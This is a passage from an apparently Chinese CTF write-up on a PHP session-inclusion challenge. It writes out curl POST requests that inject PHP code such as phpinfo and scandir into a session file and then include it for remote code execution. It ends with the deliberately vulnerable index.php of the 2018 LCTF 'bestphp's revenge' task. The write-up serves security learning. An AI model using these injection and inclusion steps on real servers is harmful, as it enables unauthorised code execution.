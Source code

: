 然后去包含

```
?function=extract&file=/tmp/sess_kpk22r3qq2v69d2uj1iigcp5c2?func
```

[![img](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01e0532ccb6b2faf63.png)

发现路径更改成功，包含了session

**RCE**

那么现在唯一的问题就是如何控制session的内容了，这里我有想到最近很流行的session.upload_progress，但是这样太麻烦了。

我们不难发现这里有一个$_SESSION[‘name’]，并且其可以被我们post的name复制，那这就可以达到控制session内容的目的。

我们尝试

```
curl -v -X POST -d "name=<?=phpinfo();?>" http://vps_ip:port/?function=session_start&save_path=/tmp
```

再去包含对应的session

```
?function=extract&file=/tmp/sess_jisv70lep6v1nfokagdll4scs7
```

得到

[![img](https://p3.ssl.qhimg.com/t0163dfa112b4a2322f.png)](https://p3.ssl.qhimg.com/t0163dfa112b4a2322f.png)

尝试读取目录

```
curl -v -X POST -d "name=<?=var_dump(scandir('./'));?>" http://vps_ip:port/?function=session_start&save_path=/tmp
```

包含文件

```
?function=extract&file=/tmp/sess_3b624no3ucdj27un5idq57jta0
```

可以成功列目录

[![img](https://p3.ssl.qhimg.com/t018eb738f6f6676f81.png)](https://p3.ssl.qhimg.com/t018eb738f6f6676f81.png)

由于是本地环境，没有存放flag，所以到此一步，题目就完结了。后面找到flag直接cat即可

## 3.2018-LCTF-bestphp’s revenge

拿到题目

index.php

```
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET[f],$_POST);
session_start();
if(isset($_GET[name])){
    $_SESSION[name] = $_GET[name];
}
var_dump($_SESSION);
$a = array(reset($_SESSION),'welcome_to_the_lctf2018');
call_user_func($b,$a);
?>
```
